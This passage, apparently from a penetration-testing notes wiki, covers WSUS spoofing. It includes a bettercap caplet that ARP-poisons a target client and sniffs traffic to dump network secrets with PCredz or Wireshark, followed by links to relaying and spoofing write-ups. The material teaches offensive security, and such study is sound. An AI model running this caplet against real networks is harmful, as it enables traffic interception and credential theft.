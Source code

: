 The search for Windows updates can be manually triggered when having access to the target computer by going to `Settings > Update & Security > Windows Update > Check for updates`.
{% endtab %}

{% tab title="Dumping network secrets" %}
Start [PCredz](https://github.com/lgandx/PCredz) or Wireshark then start the poisoning attack

{% code title="wsus\_spoofing.cap" %}
```bash

# set the ARP poisoning
set arp.spoof.targets $client_ip
set arp.spoof.internal true
set arp.spoof.fullduplex true

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# start the modules
arp.spoof on
net.sniff on
```
{% endcode %}
{% endtab %}
{% endtabs %}

## 🛠️ Below this is info I need to RTFM on...

What is iptables -j MASQUERADE and why do I see it all the time in articles and blogs

## Resources

{% embed url="http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html" %}

{% embed url="https://luemmelsec.github.io/Relaying-101/\#arp-spoofing" %}

{% embed url="https://www.bettercap.org/modules/ethernet/spoofers/arp.spoof/" %}

{% embed url="https://ivanitlearning.wordpress.com/2019/04/07/arp-dns-poisoning-with-bettercap-and-impacket-ntlmrelayx/" %}

